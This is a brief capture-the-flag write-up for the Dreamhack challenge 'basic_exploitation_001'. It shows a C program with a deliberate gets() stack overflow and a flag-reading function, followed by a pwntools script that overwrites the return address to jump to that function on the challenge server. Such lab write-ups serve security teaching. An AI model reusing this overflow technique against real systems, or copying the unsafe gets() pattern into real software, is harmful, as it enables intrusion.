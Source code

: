 ## basic_exploitation_001
---

```c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>


void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}


void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}


void read_flag() {
    system("cat /flag");
}

int main(int argc, char *argv[]) {

    char buf[0x80];

    initialize();
    
    gets(buf);

    return 0;
}
```

<br><br>

## Solution
---

read_flag 함수의 주소로 보내주면 된다.

<br>

```python
from pwn import *

p = remote('host3.dreamhack.games',12549)

flag = p32(0x80485b9)

payload = b"A"*0x80 + b"BBBB" + flag

p.send(payload)
p.interactive()
```
